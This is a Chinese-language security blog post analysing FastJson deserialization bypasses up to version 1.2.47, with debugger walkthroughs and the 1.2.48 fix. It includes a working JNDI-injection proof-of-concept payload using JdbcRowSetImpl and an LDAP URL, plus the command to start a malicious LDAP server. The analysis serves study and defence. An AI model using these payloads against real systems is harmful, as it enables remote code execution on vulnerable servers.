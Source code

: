 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qRbfZK0UX4v2YwdfWDlSeA)

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnduf2BObl6T3vhjJLelYTb5yHDr9CaCKJtBZRDgOm82RaeWJ7iaE2Mlg/640?wx_fmt=jpeg)

  

01

前言

上篇文章学习了 FastJson 的第一版漏洞，曝出后官方立马做了更新，增加了 checkAutoType() 函数，并默认关闭 autotype，在这之后一段时间内的绕过都与它有关。本文主要关于 FastJson<=1.2.47 的相关漏洞。

  

02

1.2.41-1.2.43 的缠绵不休

这三个版本的修复可以说是非常偷懒了，所以才会连续因为一个原因曝出多个问题。

```
if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
}

if (className.startsWith("L") && className.endsWith(";")) {
    String newClassName = className.substring(1, className.length() - 1);
    return loadClass(newClassName, classLoader);
}

```

从 1.2.41 说起。在 checkAutotype() 函数中，会先检查传入的 @type 的值是否是在黑名单里，如果要反序列化的类不在黑名单中，那么才会对其进行反序列化。问题来了，在反序列化前，会经过 loadClass() 函数进行处理，其中一个处理方法是：在加载类的时候会去掉 className 前后的 L 和;。所以，如果我们传入 Lcom.sun.rowset.JdbcRowSetImpl;，在经过黑白名单后，在加载类时会去掉前后的 L 和;，就变成了 com.sun.rowset.JdbcRowSetImpl，反序列化了恶意类。

更新了 1.2.42，方法是先判断反序列化目标类的类名前后是不是 L 和;，如果是，那么先去掉 L 和;，再进行黑白名单校验（偷懒 qaq）。关于 1.2.42 绕过非常简单，只需要双写 L 和;，就可以在第一步去掉 L 和; 后，与 1.2.41 相同。

更新也非常随意，在 1.2.43 中，黑白名单判断前，又增加了一个是否以 LL 开头的判断，如果以 LL 开头，那么就直接抛异常，非常随意解决了双写的问题。但是除了 L 和;，FastJson 在加载类的时候，不只对 L 和; 这样的类进行特殊处理，[也对特殊处理了，所以，同样的方式在前面添加 [绕过了 1.2.43 及之前的补丁。

在 1.2.44 中，黑客们烦不烦，来了个狠的：只要你以 [开头或者; 结尾，我直接抛一个异常。如此，终于解决了缠绵多个版本的漏洞。

  

03

<=1.2.47 的双键调用分析

### **漏洞原理**

FastJson 有一个全局缓存机制：在解析 json 数据前会先加载相关配置，调用 addBaseClassMappings() 和 loadClass() 函数将一些基础类和第三方库存放到 mappings 中（mappings 是 ConcurrentMap 类，所以我们在一次连接中传入两个键值 a 和 b，具体内容见下文）。  
之后在解析时，如果没有开启 autotype，会从 mappings 或 deserializers.findClass() 函数中获取反序列化的对应类，如果有，则直接返回绕过了黑名单。  
本次要利用的是 java.lang.Class 类，其反序列化处理类 MiscCodec 类可以将任意类加载到 mappings 中，实现了目标。

### **环境搭建**

环境：IDEA + JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

新建 maven 项目后添加 1.2.47 版本的 fastjson，并创建 fastjson1_2_47.java 文件

```
package person;
import com.alibaba.fastjson.JSON;
public class fastjson1_2_47 {
    public static void main(String[] argv){
        testJdbcRowSetImpl();
    }
    public static void testJdbcRowSetImpl(){
        String payload = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
                "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":" +
                "\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":true}}}";
        JSON.parse(payload);
    }

}

```

使用 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 搭建 ldap 服务

```
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 127.0.0.1

```

运行代码，触发 poc

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnDwqyhjckE3ODcp4MuxCFk8dO5KKpeBY5IWYR3qYoqo8tpa1RBn7g6A/640?wx_fmt=png)

### **动态分析**

首先在 JSON.parse(payload); 下断点后调试

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnzkPjw2j5j4tNrer1icTdwIIHn3x85VrbLynP31VSBMhh1Aed6jH5tibg/640?wx_fmt=png)

之后单步步入，过程类似于上篇文章中的调用过程，我们直到 DefaultJSONParser.java 的 parseObject() 函数

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnAIXeXXKbASAhLTathZooZj0GsUkE3z8nEoezK7fBP2rsvRVyvSpJ5A/640?wx_fmt=png)

下面就进入一个 for 循环获取并处理我们的 payload，我们跟进到如图所示位置，从这里开始就和 1.2.24 的调用不同了。可以看到我们获取了第一段 key 为 a，由于不是 @type 属性，我们会跳过这个 if（里面有 checkAutoType() 和 deserializer.deserialze()，我们一会就会回来），继续跟进

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnB4MrRVdMbwu6rsxic55Ooa5iawUGodiaicy3ia54pjISDHFm7FVBuicDApkQ/640?wx_fmt=png)

我们跟进到这里，开始处理 a 内 {里面的内容

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnrK6rW4HVNtzHT7eibNXeVbSIMbzeAQ5K2GT3OuYQKm1Jbn29AHYnBzA/640?wx_fmt=png)

接下来调用 this.parseObject()，正式进入嵌套，获取处理 key 为 a 的内部内容，单步步入后，我们发现又进入了上面进入过的 for 循环，并且获取的 key 为 @type，进入上面说的 if 段

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnckxw3NTGYl1rtOrdGN0YbIgAzKBKJfnUVIicyYVlb9EpHaU2OdztpSg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrn1YYXBl4Po5qp75tUBuCBJMdsv1f0khw8pu33fBS2Rgofc8icoEAVLWA/640?wx_fmt=png)

调用了 checkAutoType() 来检查目标类是否符合要求，这里我们不跟进去看了，在分析 b 段的时候再跟进去。这里我们只要知道，我们利用的 java.lang.Class 是可以通过校验的就可以了，所以我们单步步过

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnZGSTzB9l0PMSXGmiaNZ1lnTwGtooJmWxtxw9BicqKX6GHapNmW3Nh0Kw/640?wx_fmt=png)

通过 checkAutoType() 后获取到 clazz 为 java.lang.Class，之后调用了对应的序列化处理类 com.alibaba.fastjson.serializer.MiscCodec()，这里就是核心，我们单步步入

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnxKMXyibTXe35rIZIl8udlXxZqMEvlULTJ9G26Qgk9icRtnt6CVaNGbGQ/640?wx_fmt=png)

可以看到我们进入到 MiscCodec.java 的 deserialze() 中，首先调用 parser.parse() 从 payload 中获取 val 对应的键值，也就是 JdbcRowSetImpl 类，并赋值给 strVal，我们继续跟进

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnPaQTXvpw0Un3w0IYpibYS61nJ4BdSwHaqt8YLcYKzicG2JNE1eq5ALpg/640?wx_fmt=png)

接下来有一堆 if 判断，会对我们要反序列化的类进行一个类型的判断，直到如图位置，我们进入 TypeUtils.loadClass() 函数，这里默认 cache 为 true

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnf41pvPLBElXaI1GFNzDbk3gvLurpibxFt5RUhF316bmbRNbb7YekGBg/640?wx_fmt=png)

在 TypeUtils.loadClass() 中，cache 为 true 时，将键值对应的类名放到 mappings 中

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnnU6cibYpicEnNJtlO1pRsOlRGym4Eqz8vZqyLQLgVNuWGYVeDoak52Pg/640?wx_fmt=png)

（到目前为止我们已经成功将恶意类 com.sun.rowset.JdbcRowSetImpl 加载到 mappings 中，接下来我们继续跟进解析传入的第二个键值 b 的内容，实现恶意类的 jdni 注入利用）

在完成 loadClass() 后会向上层返回，如图，继续跟进后回到 for 循环正式开始解析键值 b 的内容，获取到 bkey 为 b 后，类似于 a 那里，会跳过这个 if 段，在下面再次调用 parseObject() 来处理 b 内部内容，我们直接跟进下面的 parseObject()

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnCGNAjryQbeBfBhpT3nbdChnB4Tfqzq6mC4Sf9G4pE3VBH18wR7NicjA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnWT62b12Q8Zz71QqSSicNKPezDJUYKJZUgaLta3TXarRG7GY9d4D3iafg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnFQk1XLh6HXzhdOuGvWJU1M0GG3Z7HuYsl532XYg7eibqPzhtYS76waQ/640?wx_fmt=png)

在 parseObject() 中继续跟进到入 checkAutoType()，这次我们进入 checkAutoType() 看一下

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrn3ZVk0CDIY2ANicicjqM8SJTkYmzdL7VicbkTjsiaBbyDf5IQcU6KfnC13w/640?wx_fmt=png)

在 checkAutoType 内部，没有开启 autotype，直接从 mappings 中获取，然后返回，一气呵成，黑白名单完全没用

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrn36dAHic1FGYgQlZgDgLiaHpib2T0pK0FuvHggJibAcHguP6RUdZDOdf7xw/640?wx_fmt=png)

接下来会调用 deserializer.deserialze() 和 1.2.24 一样，造成 rce

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrnibSGiaUf10R3pZ4Djicj4lnXG6sWaic2B0XygvN5bjJnUEJkzuUFVG7F0Q/640?wx_fmt=png)

完整调用链：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4LVlcaUUZQM1mPzFmJXhrn6JKVWhvsSib2BQcqlZlKRILU4UnbZwtc8e3cJC0Jy85P1a5H910ibHoA/640?wx_fmt=png)

  

04

总结和修复

本次利用分两步：

第一步利用 java.lang.Class 将恶意类加载到 mappings 中；

第二步从 mappings 中取出恶意类并绕过黑名单进行了反序列化。

在 1.2.48 中，首先将 java.lang.class 类加入黑名单，然后将 MiscCodec 类中的 cache 参数默认为 false，对于 checkAutoType() 也调整相关逻辑。尽快升级，据说当年 hw 一片。

  

05

结语

上面首先讲述了 1.2.41-1.2.43 的愚蠢问题，之后跟踪了 <=1.2.47 的 RCE，相信已经非常清楚了，在之后 FastJson 又曝出了其他问题，下篇文章继续学习。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6OLwHohYU7UjX5anusw3ZzxxUKM0Ert9iaakSvib40glppuwsWytjDfiaFx1T25gsIWL5c8c7kicamxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/Ok4fxxCpBb5ZMeq0JBK8AOH3CVMApDrPvnibHjxDDT1mY2ic8ABv6zWUDq0VxcQ128rL7lxiaQrE1oTmjqInO89xA/640?wx_fmt=gif)  

------------------------------------------------------------------------------------------------------------------------------------------------

**戳 “阅读原文” 查看更多内容**